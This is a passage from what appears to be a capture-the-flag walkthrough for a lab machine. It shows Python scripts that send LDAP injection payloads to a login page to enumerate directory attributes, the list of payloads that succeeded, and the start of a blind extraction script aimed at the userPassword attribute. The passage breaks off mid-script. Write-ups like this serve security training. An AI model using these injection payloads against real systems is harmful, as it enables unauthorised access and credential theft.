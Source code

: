           ldap_injection = "ldapuser))(&(%s=*" % (i[:-1])
          
          data = { "inputUsername": u.quote(ldap_injection) }
          req = r.post("http://10.10.10.122/login.php", data=data)

          if "Cannot login" in req.text:
              print(ldap_injection)
              attributes.append(i[:-1])

      attribute_list.close() 
      ```
      - Run using `python3`:
        ```
        ldapuser))(&(cn=*
        ldapuser))(&(commonName=*
        ldapuser))(&(gidNumber=*
        ldapuser))(&(homeDirectory=*
        ldapuser))(&(loginShell=*
        ldapuser))(&(mail=*
        ldapuser))(&(name=*
        ldapuser))(&(objectClass=*
        ldapuser))(&(pager=*
        ldapuser))(&(shadowLastChange=*
        ldapuser))(&(shadowMax=*
        ldapuser))(&(shadowMin=*
        ldapuser))(&(shadowWarning=*
        ldapuser))(&(sn=*
        ldapuser))(&(surname=*
        ldapuser))(&(uid=*
        ldapuser))(&(uidNumber=*
        ldapuser))(&(userPassword=*
        ```

      __NOTE(S)__:
      - `ldap_attribute_list.txt` was copied from [ldap-brute from GitHub](https://github.com/droope/ldap-brute/blob/master/wordlists/attribute_names)
      - `userPassword`, `pager`, and `objectClass` might be of interest
>
   4. Find the attribute with the __token string__:
      - `userPassword`:
        ```py
        import requests as r
        import urllib.parse as u

        token = ""
        while True:

          if len(token) % 3 == 0 :
              attribute_value = bytes.fromhex(str(token.replace("\\", ""))).decode('utf-8')
              print(attribute_value)
              token += "\\"
              
              if len(attribute_value[19:])==86: break
        
          for x in range(15,-1,-1):
